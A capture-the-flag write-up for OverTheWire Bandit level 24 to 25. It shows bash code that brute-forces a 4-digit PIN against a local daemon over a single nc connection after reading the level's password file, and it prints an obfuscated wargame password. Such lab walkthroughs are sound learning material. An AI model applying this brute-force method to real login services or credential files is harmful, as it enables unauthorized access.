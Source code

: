 # Write-up: Bandit 24 → 25
**Date:** 2025-08-16

## Obfuscated password (ROT13) 
`vPv86ggG4XFAr1nezXvjoDAzO3LWC3d4`

## OBJECTIVE
> "A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
> You do not need to create new connections each time."

## PURPOSE
We must brute-force a **4-digit PIN (0000–9999)**, but do it **over a single TCP connection** to `localhost:30002`. Each attempt is one line:
```
<bandit24_password> <4-digit_pin>
```
The server replies “Wrong!” for bad guesses and prints the **bandit25** password for the correct one.

**Why these choices**
- **Single connection:** Faster and kinder to the service than opening 10,000 sockets.
- **`seq -w` (zero-pad):** Ensures pins are `0000…9999` (not `0…9999`).
- **Keep a transcript (optional):** `tee` lets you save and then `grep` the one non-“Wrong!” line.

First, load the current level’s password:
```bash
pass=$(cat /etc/bandit_pass/bandit24)
```

## SOLUTIONS

### Solution A — One-liner (single connection)
```bash
pass=$(cat /etc/bandit_pass/bandit24)
{ for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } \
| nc localhost 30002 | grep -iv '^wrong'
```
> If your `nc` is the GNU flavor and doesn’t close after stdin ends, add `-q 1`:
> ```bash
> { for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } \
> | nc -q 1 localhost 30002 | grep -iv '^wrong'
> ```

**Why this is good:** minimal, readable, and uses exactly one TCP session.

---

### Solution B — Tiny script (easy to reuse, saves transcript)
Create `/tmp/brute_30002.sh`:
```bash
#!/usr/bin/env bash
# Bandit 24 → 25, brute-force over a single connection

PASS="$(</etc/bandit_pass/bandit24)"
HOST=localhost
PORT=30002
OUT=/tmp/b25.out

{
  for pin in $(seq -w 0000 9999); do
    echo "$PASS $pin"
  done
} | nc "$HOST" "$PORT" | tee "$OUT"

grep -iv '^wrong' "$OUT"
```
Run it:
```bash
chmod +x /tmp/brute_30002.sh
bash /tmp/brute_30002.sh
```
> If needed for GNU `nc`, change the `nc` line to `nc -q 1 "$HOST" "$PORT"`.

**Why this is good:** captures everything to `/tmp/b25.out` for auditing and keeps the logic compact.

---

Writeup author: **Jeremy Ray Jewell**  
[GitHub](https://github.com/jeremyrayjewell) • [LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)
